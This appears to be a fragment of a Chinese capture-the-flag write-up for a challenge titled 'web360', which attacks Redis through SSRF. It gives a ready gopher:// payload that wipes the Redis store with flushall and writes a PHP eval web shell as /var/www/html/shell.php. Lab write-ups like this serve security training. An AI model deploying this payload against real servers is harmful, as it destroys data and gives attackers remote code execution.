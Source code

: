 ## web360(打redis)

同样生成payload，和上一题一样

![image-20240207195040902](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240207195040902.png)

```
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252428%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

默认是shell.php文件
